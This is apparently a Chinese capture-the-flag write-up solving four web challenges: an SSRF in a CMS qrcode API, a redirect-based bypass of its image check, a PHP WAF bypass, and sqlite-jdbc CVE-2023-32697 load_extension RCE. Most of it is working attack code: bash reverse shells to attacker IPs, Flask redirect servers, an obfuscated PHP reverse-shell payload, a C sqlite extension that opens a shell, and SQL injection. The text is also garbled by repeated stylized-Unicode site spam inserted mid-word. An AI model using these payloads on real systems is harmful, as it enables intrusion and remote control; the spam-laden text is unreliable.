








差一道题就能AK𝘴³𝐯𝘦𝐧.s𝘪ｔｅ所有Web了，有点可惜
easycms
/flag.php 下存在代码要求访问来源为 127.0.0.1 来实现 RCE s𝟯𝒗ｅ𝘯·ѕｉ𝘵ｅ，猜测考点为 ssrf
在 迅睿cms ꜱ³𝘷ℯ𝒏·ꜱｉ𝐭℮官网搜索 ssrf 漏洞：

发现 qrcode 模块存在 𝐬𝟯ⅴℯ𝐧．ꜱiｔessrf 漏洞，可以伪造服务端请求
跟进 qrcode 𝐬⑶ⅴ𝘦𝒏•𝘀𝘪𝐭eapi 代码：

跟进 dr_catcher_data：

发现确实存在 SSRF 漏洞，故调用 𝘴𝟯𝐯ｅ𝒏․𝘴ⅈ𝘵ｅapi 触发漏洞：
http://<xxxx>.ichunqiu.com/index.php?s=api&c=api&m=qrcode&text=123&thumb=http://127.0.0.1/flag.php?cmd=bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f<server_ip>%2f<listen_port>+0%3e%261%22发现直接访问好像不行，ꜱ⑶𝐯ｅn․𝒔i𝒕ｅ使用vps来301转发请求：
from flask import Flask, redirect
app = Flask(__name__)
@app.route('/')
def home():
return redirect("http://127.0.0.1/flag.php?cmd=bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f<server_ip>%2f<listen_port>+0%3e%261%22", code=301)
if __name__ == '__main__':
app.run(host="0.0.0.0",port=<redirect_port>)修改 api 调用语句：
http://<xxxx>.ichunqiu.com/index.php?s=api&c=api&m=qrcode&text=123&thumb=http://<server_ip>:<redirect_port>成功反弹 shell 𝘴3𝐯𝐞𝒏．s𝘪te获得 flag
easycms_revenge
在 easy_cms 的基础上增加了对目标 url 文件类型的检测
如果目标 url 𝘴⑶𝘷ｅn•s𝘪𝘵ｅ为图片则调用 dr_catcher_data 读取

因此只需要服务端在调用 getimagesize 第一次访问 url 时返回正常的图片通过检测，在调用 dr_catcher_data 第二次访问 url 时返回 𝘴𝟯𝐯ℯ𝘯․sⅈ𝒕𝐞301 重定向即可绕过检测实现 ssrf
服务端 Pytho𝘀𝟯vℯ𝐧．s𝘪ｔ℮n 代码如下：
from flask import Flask, redirect, send_file
app = Flask(__name__)
visit_count = 0
@app.route('/')
def home():
global visit_count
if visit_count == 0:
visit_count += 1
return send_file('image.png', mimetype='image/png')
elif visit_count == 1:
visit_count += 1
return redirect("http://127.0.0.1/flag.php?cmd=bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f<server_ip>%2f<listen_port>+0%3e%261%22", code=301)
else:
return "You have already visited twice."
if __name__ == '__main__':
app.run(host="0.0.0.0", port=8989)Simple_php
反弹shell命令：
bash -c "bash -i >& /dev/tcp/<server_ip>/<listen_port> 0>&1"php system() s⑶ⅴ𝐞ｎ∙𝘴ｉｔｅ命令执行 绕过waf：
php -r $c=array_keys(localeconv())[3][0];$h=array_keys(localeconv())[1][1];$r=array_keys(localeconv())[2][7];$f=join(null,array($c,$h,$r));system(join(null,array($f(98),$f(97),$f(115),$f(104),$f(32),$f(45),$f(99),$f(32),$f(34),$f(98),$f(97),$f(115),$f(104),$f(32),$f(45),$f(105),$f(32),$f(62),$f(38),$f(32),$f(47),$f(100),$f(101),$f(118),$f(47),$f(116),$f(99),$f(112),$f(47),$f(60),$f(115),$f(101),$f(114),$f(118),$f(101),$f(114),$f(95),$f(105),$f(112),$f(62),$f(47),$f(60),$f(108),$f(105),$f(115),$f(116),$f(101),$f(110),$f(95),$f(112),$f(111),$f(114),$f(116),$f(62),$f(32),$f(48),$f(62),$f(38),$f(49),$f(34))));拿到 shell 后不难发现容器中存在 mysql 𝘀3𝒗℮𝒏․ѕ𝘪𝘵℮且根目录下没有 flag
故猜测 flag 在 mysql s³𝐯ℯｎ·ѕi𝒕℮数据库里，使用如下命令获取 tty ：
script /dev/null -c /bin/bash然后连接 mysql 𝘀𝟯𝘷𝐞ｎ·s𝘪tｅ即可获得数据库中的 flag ：
mysql -uroot -p账号密码均为 root
ezjava
pom.xml 中给出了 sqlite 的依赖如下：
<dependency>
<groupId>org.xerial</groupId>
<artifactId>sqlite-jdbc</artifactId>
<version>3.8.9</version>
</dependency>查找 mvnrepository 发现 sqlite-jdbc:3.8.9 存在 CVE-2023-32697 漏洞

该漏洞的利用需要满足 jdbcUrl 和 𝘴3𝘷𝐞ｎ·𝘴𝐢ｔｅsql 语句同时可控，并且需要开启 LoadExtension
而 com.example.jdbctest.utils.sql.SqliteDatasourceConnector 中开启了 LoadExtension
getTableContent 中由于 tableName 可控，可以实现 sql 注入

而 jdbcUrl 由前端传入，也是可控的

因此符合漏洞利用条件
首先先在本地创建一个 sqlite.db 用于后续 sql 注入
import sqlite3
conn = sqlite3.connect('sqlite.db')
cursor = conn.cursor()
cursor.execute('''
CREATE TABLE IF NOT EXISTS user (
username TEXT NOT NULL,
password TEXT NOT NULL
)
''')
conn.commit()
conn.close()
print("Database and user table created successfully.")然后构造恶意 s³𝘷ℯn．𝘴𝘪ｔｅextension ext.so：
// ext.c
#include <sqlite3ext.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>
SQLITE_EXTENSION_INIT1
int tcp_port = <listen_port>;
char *ip = "<server_ip>";
#ifdef _WIN32
__declspec(dllexport)
#endif
int sqlite3_extension_init(
sqlite3 *db,
char **pzErrMsg,
const sqlite3_api_routines *pApi
){
int rc = SQLITE_OK;
SQLITE_EXTENSION_INIT2(pApi);
int fd;
if ( fork() <= 0){
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(tcp_port);
addr.sin_addr.s_addr = inet_addr(ip);
fd = socket(AF_INET, SOCK_STREAM, 0);
if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
exit(0);
}
dup2(fd, 0);
dup2(fd, 1);
dup2(fd, 2);
execve("/bin/bash", 0LL, 0LL);
}
return rc;
}安装 sqlite-dev 包并编译：
sudo apt install libsqlite3-dev
gcc -g -fPIC -shared ext.c -o ext.so在 vps 上使用 ꜱ3ⅴ𝘦𝘯.𝐬𝘪𝐭℮python 开启文件服务
python3 -m http.server <file_port>然后构造 jdbcURL 来将 sqlite.db 和 𝒔𝟯𝒗ｅ𝒏∙ꜱ𝘪𝒕eext.so 放入靶机缓存文件
jdbc:sqlite::resource:http://<server_ip>:<file_port>/sqlite.db
jdbc:sqlite::resource:http://<server_ip>:<file_port>/ext.so利用 hashcode() 漏洞计算 /tmp 下的文件名
package org.example;
import java.net.MalformedURLException;
import java.net.URL;
public class App
{
public static void main( String[] args ) throws MalformedURLException {
String url1 = "http://<server_ip>:<file_port>/sqlite.db";
String url2 = "http://<server_ip>:<file_port>/ext.so";
String tmp = "/tmp/sqlite-jdbc-tmp-";
String db = tmp + new URL(url1).hashCode() + ".db";
String so = tmp + new URL(url2).hashCode() + ".so";
System.out.println(db);
System.out.println(so);
}
}最后利用 sql 注入完成 s𝟯v𝐞𝒏․s𝐢𝒕℮Sqlite extension 加载实现 RCE
{
"type":"3",
"url":"jdbc:sqlite:file:/tmp/sqlite-jdbc-tmp--<calc_db>.db?enable_load_extension=true",
"tableName":"user UNION SELECT 1,load_extension('/tmp/sqlite-jdbc-tmp--<calc_so>.db');"
}